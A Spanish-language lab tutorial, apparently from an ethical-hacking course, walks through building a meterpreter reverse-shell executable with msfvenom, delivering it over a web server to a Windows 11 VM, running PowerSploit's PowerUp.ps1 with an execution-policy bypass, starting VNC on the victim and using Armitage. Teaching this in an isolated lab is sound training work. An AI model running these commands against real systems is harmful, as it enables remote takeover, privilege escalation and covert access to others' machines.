

# Usar Metasploit para levantar un servidor VNC en la víctima.
   
Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Kali Linux***.
3. Máquina ***Windows 11***
4. Máquina ***Metasploitable3-ubu1404*** (Opcional)

Una sola vulnerabilidad es lo que necesita el actor de la amenaza para poder obtener acceso a la víctima. Su objetivo en esta fase consiste en descubrir nuevas vulnerabilidades, servicios mal configurados, etc. que le permitan tomar el control por completo de la víctima.
Nota: También es posible contar con la inestimable colaboración del usuario y conseguir una shell inversa a pesar de que su equipo no contenga vulnerabilidades.


## Ejercicio 1: Abrir una sesión de Meterpreter.

Vamos a crear un payload en formato ejecutable que nos permita ganar acceso a la víctima, para poder descubrir si tiene otras vulnerabilidades.

En la máquina ***Kali*** abrimos una terminal y ejecutamos el siguiente comando para levantar el servidor web.
```
sudo service apache2 start
```

A continuación creamos un payload de ***meterpreter*** en formato ***ejecutable*** para ***Windows de 32 bits***. El ***listener*** estará en la máquina ***Kali*** escuchando en el puerto ***3333***. Aprovechamos y guardamos el payload en el directorio raíz del servidor web
```
sudo msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=192.168.20.9 LPORT=3333 -o /var/www/html/regalito.exe
```

En la terminal abrimos la herramienta ***Metasploit***.
```
sudo msfconsole
```
y configuramos el ***listener***.
```
use multi/handler
```
```
set payload windows/meterpreter/reverse_tcp
```
```
set LHOST 192.168.20.9
```
```
set LPORT 3333
```
```
exploit
```

Con esto el listener queda a la escucha de conexiones provenientes del payload.

Vamos a la máquina ***Windows 11***.

En este laboratorio no vamos a preocuparnos de evadir al antivirus, porque esas técnicas aún quedan por aprender. Así que simplemente desactivamos el antivirus mientras dura esta práctica.


Abrimos una sesión del navegador de Internet y nos conectamos a la siguiente URL.
Nota: Esto va a permitir pasar el payload a la víctima.
```
http://192.168.20.9/regalito.exe
```

El navegador advierte que descargar un ejecutable no es nada bueno, pero recordemos que solo estamos usando el servidor web para transportar el payload desde la máquina ***Kali*** hasta la víctima, así que hacemos clic en ***Keep***.


Volvemos a insistir en la descarga.


Por último hacemos clic ***Open file*** para abrirlo.

Volvemos a la máquina ***Kali*** y en ella tendremos abierta una sesión contra la víctima.


En el prompt de ***meterpreter*** escribimos lo siguiente para comprobar quién es la víctima.
```
sysinfo
```

Si queremos conocer todas las posibilidades que ofrece ***Meterpreter*** solo tenemos que perdirle ayuda.
```
help
```

Ya hemos ganado acceso a la víctima. Ahora procedemos a descubrir nuevas vulnerabilidades.


## Ejercicio 2: Usar PowerShell Mafia para encontrar nuevas vulnerabilidades.

***PowerShell Mafia*** es un conjunto de scripts escritos en PowerShell que permiten interactuar con la víctima. De todos ellos nos interesa uno en concreto llamado ***PowerUp.ps1***, que está especializado en encontrar debilidades relacionadas con el escalado de privilegios.

Volvemos a la máquina ***Kali*** y en una ***NUEVA*** terminal escribimos.
```
cd ~

git clone https://github.com/PowerShellMafia/PowerSploit.git
```

Volvemos a la terminal de ***meterpreter*** y procedemos a subir el script ***PowerUp.ps1*** a la víctima por medio del comando.
```
upload /home/antonio/PowerSploit/Privesc/PowerUp.ps1 PowerUp.ps1
```

Ya tenemos subido el script a la víctima. Ahora necesitamos ejecutarlo en ella. En primer lugar abrimos una ***shell*** desde el prompt de ***meterpreter***.
```
shell
```

Listamos el directorio.
```
dir
```

Podrás comprobar que ahí esta el script ***PowerUp.ps1***.


Ejecutamos el script.
```
powerShell -ExecutionPolicy Bypass -Command ". .\PowerUp.ps1;Invoke-AllChecks"
```

Como resultado, este script visualiza las vulnerabilidades encontradas y nos dice que otro componente de ***PowerShell Mafia*** deberíamos usar para explotarla.


En este link https://github.com/PowerShellMafia/PowerSploit tienes de documentación del proyecto, que aunque se ha discontinuado, aún es de utilidad en la actualidad.

Para cerrar la shell escribimos.
```
exit
```

Debemos quedarnos en el prompt de ***Meterpreter***.


## Ejercicio 3: Levantar un servidor VNC en la víctima.

El hacking es el arte de pasar desapercibidos, con notables excepciones, como por ejemplo los ataques de ***Ransomware***. 

Por esta razón, abrir una interfaz gráfica contra la víctima no es especialmente delicado, pero sirve para demostrar la potencia de ***Meterpreter***.

Levantamos un servidor ***VNC*** en la víctima con el siguiente comando.
```
run vnc
```

***Meterpreter*** subirá el agente de VNC a la víctima y abrirá una sesión del navegador para conectar con el. 

Observa cómo dice que el agente debe ser eliminado manualmente. Importante para no deja huellas.


Cerramos la sesión de ***meterpreter*** con.
```
exit
```

Salimos de ***metasploit*** con.
```
exit
```

Reinicia la máquina ***Win 11*** para eliminar el ataque y que quede operativa para los siguientes ejercicios.


Generalmente se usa ***Metasploit*** desde la línea de comandos. No obstante, a veces puede ser necesario levantar una interfaz gráfica que facilite la interacción con la víctima, sobre todo si son muchas.


## Ejercicio 3: Instalar y usar Armitage.

En la máquina ***Kali*** abrimos una terminal y escribimos.
```
sudo apt-get update
```
```
sudo apt-get install -y armitage
```

***Armitage*** usa ***Team Server*** que es un wrapper (intermediario) que pemite la comunicación con ***Metasploit***
```
sudo teamserver 192.168.20.9 Pa55w.rd
```

Cuando el servidor termina de iniciarse muestra la siguiente información que posteriormente debemos suministrar a ***Armitage*** para que se conecte.


En una nueva terminal, iniciamos ***Armitage***.
```
sudo armitage
```

Aparecerá el cuadro de diálogo de conexión con el ***Team Server***. Escribimos los datos y hacemos clic en ***Connect***.



Al mensaje que muestra la huella del ***Team server***. Respodemos ***Yes***.

Luego nos pregunta nuestro apodo. Escribimos el nuestro.


***Armitage*** también ofrece interfaz gráfica para ***Nmap***. Empecemos reconociendo la red.

Ejecutar la opción ***Hosts/Nmap Scan/Intense Scan*** del menú.

Como entrada poner el siguiente rango de red.
```
192.168.20.0/24
```

Después del reconocimiento, se muestra un mensaje que nos invita a realizar los ataques.


Puede tardar un rato hasta que ***Armitage*** detecta y muestra los hosts encontrados, tal y como se ve en la siguiente imagen.


Ahora necesitamos recrear en la interfaz de ***Armitage*** el listener. Para ello desplegamos, en la estructura de carpetas que aparece a la izquierda, la siguente ruta: ***Payload/windows/meterpreter/reverse_tcp*** y hacemos doble clic en él. Se abrirá un formulario que debemos conformar como se muestra en la siguiente imagen.


Hacemos clic en ***Launch***.
Nota: A veces se producen ***timeouts***. Si fuera el caso repetir el procedimiento.

Es el momento de regresar a la víctima. En la máquina ***Win 11***, en la carpeta ***Downloads*** debe estar nuestro "regalito". Lo ejecutamos.

En ***Armitage*** podemos ver claramente que el equipo ha sido hackeado, como muestra la siguiente imagen.


Con botón derecho sobre el icono del equipo hackeado tenemos un menú mediante el cual podemos interactuar con la víctima.


***ACTIVIDADES***

Los servidores corporativos generalmente usan alguna distribucion de ***Linux***.  Te pregunto... ¿Sueles poner antivirus en Linux? ¿Qué posibilidades ofrece ***Metasploit*** en un servidor que no tiene antivirus?

Inicia la máquina  ***Metasploitable3-ubu1404*** e intenta conseguir una interfaz gráfica contra ella. ¿Es posible administrar la víctima a través de esta interfaz gráfica?

